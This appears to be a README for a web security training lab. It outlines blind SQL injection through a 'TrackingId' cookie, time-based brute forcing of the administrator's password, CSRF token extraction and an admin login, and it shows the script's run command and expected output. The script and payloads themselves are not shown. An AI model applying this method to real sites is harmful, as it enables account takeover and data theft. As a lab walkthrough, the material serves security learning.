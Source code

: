 # Hack Steps

1. Inject payload into 'TrackingId' cookie to determine the length of administrator's password based on time delays
2. Modify the payload to brute force the administrator's password 
3. Fetch the login page
4. Extract csrf token and session cookie
5. Login as the administrator
6. Fetch the administrator profile

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ python blind_sql_injection_with_conditional_responses.py
```

# Expected Output

```
[#] Injection point: TrackingId
1. Checking if password length = 10 
1. Checking if password length = 15
                    .........
1. Checking if password length = 20 [ Correct length: 20 ]
2. Checking if char at position 5   =  9 [ Correct password: 37z59 ]
2. Checking if char at position 12  =  i [ Correct password: 37z59ib4bm7i ]
                    ..........
2. Checking if char at position 20  =  2 [ Correct password: 37z59ib4bm7ifm6fuxo2 ]
3. Fetching login page.. OK
4. Extracting csrf token and session cookie.. OK
5. Logging in as the administrator.. OK
6. Fetching the administrator profile.. OK
[#] Check your browser, it should be marked now as solved
```
